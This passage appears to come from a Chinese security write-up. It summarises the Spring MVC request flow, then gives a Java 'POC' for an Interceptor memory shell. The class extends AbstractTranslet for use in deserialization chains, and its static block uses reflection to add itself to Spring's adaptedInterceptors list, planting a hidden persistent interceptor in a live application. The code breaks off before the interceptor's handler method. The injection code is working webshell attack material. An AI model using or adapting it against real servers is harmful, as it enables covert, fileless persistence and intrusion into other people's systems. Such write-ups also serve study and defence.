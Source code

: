 1、请求首先进入DispatcherServlet， 由DispatcherServlet 从HandlerMappings中匹配对应的Handler，此时只是获取到了对应的Handler，然后拿着这个Handler去寻找对应的适配器，即：HandlerAdapter；

2、拿到对应HandlerAdapter时，这时候开始调用对应的Handler方法，即执行我们的Controller来处理业务逻辑了， 执行完成之后返回一个ModeAndView；

3、HandlerAdapter执行完之后，返回一个ModeAndView，把它交给我们的视图解析器ViewResolver，通过视图名称查找出对应的视图然后返回；

4、最后，渲染视图 返回渲染后的视图。




### 利用

利用就很EZ了，直接反射向adaptedInterceptors添加Interceptor即可

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250316145418568.png)

adaptedInterceptors是AbstractHandlerMapping的字段，直接用RequestMappingHandlerMapping也可以

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250316170526374.png)

POC：

```java
package cn.org.javaweb.springmemshell.Interceptor;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.LinkedHashSet;
import java.util.List;

public class InterceptorMemShell extends AbstractTranslet implements HandlerInterceptor {
    static {
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            if (context != null) {
                RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
                Field adaptedInterceptorfield = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
                adaptedInterceptorfield.setAccessible(true);
                List adaptedInterceptor = (List) adaptedInterceptorfield.get(requestMappingHandlerMapping);
                adaptedInterceptor.add(new InterceptorMemShell());
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }



    @Override
```